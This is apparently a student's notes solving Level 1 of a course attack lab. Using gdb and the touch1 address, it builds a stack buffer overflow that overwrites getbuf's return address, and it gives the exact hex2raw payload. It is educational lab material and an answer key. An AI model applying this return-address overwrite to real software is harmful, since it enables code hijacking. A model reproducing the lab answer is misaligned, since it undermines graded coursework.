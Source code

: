 * Level 1
You need to redirect the program to execute a procedure that already
exists.

~getbuf~ is called by ~test~:
#+begin_src c
  void test()
  {
      int val;
      val = getbuf();
      printf("No exploit. Getbuf returned 0x%x\n", val);
  }
#+end_src

The task consists in getting CTARGET executing touch1 when getbuf
executes its return statement (rather than returning to ~test~).

#+begin_src c
  void touch1()
  {
      vlevel = 1; /* Part of validation protocol */
      printf("Touch1!: You called touch1()\n");
      validate(1);
      exit(0);
  }
#+end_src

This is the address of touch1: ~00000000004017c0~.

Without looking at the code further, I've added to it 8 bytes of 0s at
a time and tried to see whether it worked. After six attempt it
worked. (I've also sorted the bytes so that they are in little
endian.)

Solution:
#+begin_src
echo "00 00 00 00 00 00 00 00 \
00 00 00 00 00 00 00 00 \
00 00 00 00 00 00 00 00 \
00 00 00 00 00 00 00 00 \
00 00 00 00 00 00 00 00 \
c0 17 40 00 00 00 00 00" | ./hex2raw | ./ctarget -q
#+end_src

(
to run gdb:
- first execute ~gdb ./ctarget~
- set your initial breakpoints
- execute the command ~run -q < raw_input~
(See
https://stackoverflow.com/questions/455544/how-to-load-program-reading-stdin-and-taking-parameters-in-gdb)
)

